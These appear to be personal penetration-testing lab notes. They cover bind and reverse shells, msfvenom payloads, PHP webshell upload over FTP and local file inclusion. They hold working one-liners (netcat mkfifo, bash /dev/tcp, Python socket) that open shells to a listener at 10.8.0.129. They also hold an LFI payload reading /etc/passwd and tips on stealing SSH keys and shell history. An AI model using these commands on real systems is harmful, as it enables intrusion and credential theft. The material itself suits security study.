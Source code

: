- reverseshell github or revshells.com : generator
    - nc php perl bash 


- nc bindshell execute code on the target host
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 9001 > /tmp/f
```
- nmap > bindshell disconnected, 
- don't need to make a file(msfvenom)


#### reverse shell
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.129 LPORT=6464 -f elf -o revshell
scp revshell root@172.31.176.64:/tmp/revshell

nc -nvlp 6464
```

- better bash cmd, rather than fileupload
```
sh -i >& /dev/tcp/10.8.0.129/6464 0>&1

python or python3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.0.129",6464));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- check if it exists
    - php --version
    - python3 --version
    - bash


### FTP
- upload path
- which network access file and execute?
    - e.g. webserver > ftp can access /upload dir ,and execute (upload payload)

- webshell bothering URL encoding etc.> just directly php reverse shell
- Tech: linux apache, php 

- php-reverse-shell.php : more stable
    - /usr/share/webshells/php/


### LFI 
- file read important
    - ssh, zsh_ history , db , user info, network configuration!


- ?page=/etc/passwd
- less 1000 : services /nologin
- more 1000 : user /bin/bash shell
